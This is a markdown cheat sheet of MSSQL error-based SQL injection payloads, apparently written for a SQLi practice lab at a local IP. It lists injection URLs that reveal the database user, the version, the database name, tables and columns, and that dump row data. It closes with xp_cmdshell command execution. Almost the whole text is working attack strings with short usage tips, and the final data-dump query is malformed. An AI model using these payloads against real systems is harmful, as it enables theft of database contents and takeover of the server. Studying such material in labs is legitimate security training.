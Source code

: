 #### Current user

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://192.168.1.104/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user
